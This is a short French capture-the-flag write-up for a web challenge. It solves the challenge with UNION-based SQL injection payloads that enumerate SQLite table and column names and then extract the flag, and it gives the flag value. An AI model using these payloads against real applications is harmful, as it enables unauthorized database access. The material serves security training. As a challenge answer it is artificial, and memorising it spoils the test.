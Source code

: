 # SQL injection 7

> web

Author: [Alexandre-Xavier Labonté-Lamoureux (AXDOOMER)](https://github.com/axdoomer)

Ce septième défi d'injection SQL indentique au défi précédent, cependant vous ne connaissez pas le nom de la table ni de la colonne!

Bonne chance!!  :-) 

## Setup

Requirements:
- BurpSuite

# Writeup

Nom de la table:
`" union select 1,2,name from sqlite_master--`

Résultat: Ja93MjakS

Nom de la colonne:
`" union select 1,2,name from PRAGMA_TABLE_INFO("Ja93MjakS")--`

Résultat: `Dab93JkA`

Requête finale: `" union select 1,2,Dab93JkA from Ja93MjakS--`

Résultat: `FLAG-0150833d39625b1c322ff1b77e21427c`
